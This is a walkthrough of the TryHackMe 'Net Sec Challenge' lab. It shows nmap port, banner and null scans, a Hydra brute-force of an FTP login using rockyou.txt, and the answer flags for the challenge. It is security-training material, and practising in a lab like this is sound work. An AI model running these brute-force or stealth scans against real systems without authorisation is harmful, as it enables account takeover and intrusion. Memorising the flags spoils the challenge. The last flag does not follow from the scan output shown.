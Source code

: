```yaml
---
title: "Net Sec Challenge: THM Walkthrough"
subtitle: "Challenge to test your network security skills."
date: 2025-07-25
tags: [tryhackme]
---
```


This is a walkthrough for the TryHackMe room [Network Security Challenge Room](https://tryhackme.com/room/netsecchallenge). This challenge is designed to use [nmap](/docs/networking/nmap), [telnet](/docs/networking/telnet), [ftp](/docs/networking/ftp) and [hydra](/docs/security/tools/hydra) to find flags and learn about network security.
<!-- truncate -->

### Information Gathering

Start the machine and save IP address for the room.

```sh
export IP=10.10.164.150
```

Let's use [ping](https://en.wikipedia.org/wiki/Ping_(networking_utility)) to check if the machine is reachable.

```sh
ping $IP
64 bytes from 10.10.164.150: icmp_seq=0 ttl=63 time=21.815 ms
```

**1. What is the highest port number being open less than 10,000?**

Let's use [nmap](/docs/networking/nmap) to scan the target for the first 10.000 ports.

```sh
nmap -p1-10000 -T4 $IP
#     |         |-> -T4 for faster execution
#     |-> -p1-10000 to scan ports from 1 to 10.000
Nmap scan report for 10.10.164.150
Host is up (0.022s latency).
Not shown: 9995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 49.03 seconds
```

**Answer:** 8080

**2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

Let's use `-p-` to scan all ports (65535 ports) and see if there are any other open ports.

```sh
nmap -p- -T4 $IP
#     |   |-> -T4 for faster execution
#     |-> -p- to scan all ports
Nmap scan report for 10.10.164.150
Host is up (0.021s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
10021/tcp open  unknown
```

**Answer:** 10021

**3. How many TCP ports are open?**

```sh
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
10021/tcp open  unknown
```

**Answer:** 6

**4. What is the flag hidden in the HTTP server header?**

Let's use nmap [http-header](https://nmap.org/nsedoc/scripts/http-headers.html) scanning script to find the HTTP server header.

```sh
nmap -p 80 --script=http-headers $IP
#     |             |-> -http-headers script to scan HTTP headers
#     |-> -p 80 to scan port 80
PORT   STATE SERVICE VERSION
80/tcp open  http    lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
| http-headers:
|   Content-Type: text/html
|   Accept-Ranges: bytes
|   ETag: "229449419"
|   Last-Modified: Tue, 14 Sep 2021 07:33:09 GMT
|   Content-Length: 226
|   Connection: close
|   Date: Mon, 28 Jul 2025 10:35:10 GMT
|   Server: lighttpd THM{web_server_25352}
|
|_  (Request type: HEAD)
```

**Answer:** `THM{web_server_25352}`

**5. What is the flag hidden in the SSH server header?**

Let's use nmap [ssh-auth-methods](https://nmap.org/nsedoc/scripts/ssh-auth-methods.html) script to find our flag.

```sh
nmap -p 22 --script=ssh-auth-methods $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| ssh-auth-methods:
|   Supported authentication methods:
|     publickey
|_    password
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.95%I=7%D=7/28%Time=6887538E%P=arm-apple-darwin24.2.0%r(N
SF:ULL,2A,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\x20\r\n");
```

Also, the SSH service is unrecognized because of its modified banner because it contains our flag.

**Answer:** `THM{946219583339}`

**6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

```sh
nmap -sV -p- -T4 $IP
#     |   |   |-> -T4 for faster execution
#     |   |-> -p- to scan all ports
#     |-> -sV for service version detection
...
10021/tcp open  ftp         vsftpd 3.0.5
...
```

Answer: `vsftpd 3.0.5`

**7. We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

Let's use [Hydra](/docs/security/tools/hydra) to brute force the FTP service on port `10021`. We will use the usernames **`eddie`** and **`quinn`** that we learned about, and the password list [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). I added the usernames to a file called `user-list`.

```sh
hydra -L user-list -P rockyou.txt -s 10021 ftp://$IP
#      |            |              |        |-> ftp://$IP to specify the FTP service
#      |            |              |-> -s 10021 to specify the port
#      |            |-> -P to specify a file with passwords
#      |-> -L to specify a file with usernames   
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688796 login tries (l:2/p:14344398), ~1793050 tries per task
[DATA] attacking ftp://10.10.164.150:10021/
[10021][ftp] host: 10.10.164.150   login: eddie   password: jordan
[10021][ftp] host: 10.10.164.150   login: quinn   password: andrea
1 of 1 target successfully completed, 2 valid passwords found
```

We successfully brute-forced the FTP service and found two valid credentials:

- Username: `eddie`, Password: `jordan`
- Username: `quinn`, Password: `andrea`

Now, let's connect to the FTP service using the `eddie` user and `quinn` users to see if we can find any flags.

Nothing discovered on the `eddie` user.

But we found a filename `ftp_flag.txt` in the `quinn` user and downloaded it to our machine.

```sh
ftp 10.10.164.150 10021
Connected to 10.10.164.150.
220 (vsFTPd 3.0.5)
Name (10.10.164.150:root): quinn
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
18 bytes received in 0.00 secs (39.4128 kB/s)
```

```sh
cat ftp_flag.txt 
THM{321452667098}
```

**Answer:** `THM{321452667098}`

**8. Browsing to [http://10.10.164.150:8080](http://10.10.164.150:8080) displays a small challenge that will give you a flag once you solve it. What is the flag?**

Null Scan doesn't set any TCP flags, so it is useful to bypass firewalls and packet filters that block certain types of traffic. Let's use nmap with the `-sN` option to perform a null scan on port `8080`.

```sh
nmap -sN 10.10.164.150
Nmap scan report for 10.10.164.150
Host is up (0.027s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
139/tcp  open|filtered netbios-ssn
445/tcp  open|filtered microsoft-ds
8080/tcp open|filtered http-proxy
```

**Answer:** `THM{f7443f99}`

### Conclusion

This room was a great practice for network security skills, including using tools like nmap, telnet, ftp, and hydra to find flags and learn about network security.
The advanced technique like null scan was a nice touch to bypass firewalls and packet filters, sometimes we need to avoid detection and remain "stealthy" if possible.

### Links

- [TryHackMe: Nmap Advanced Port Scans](https://tryhackme.com/room/nmap03)
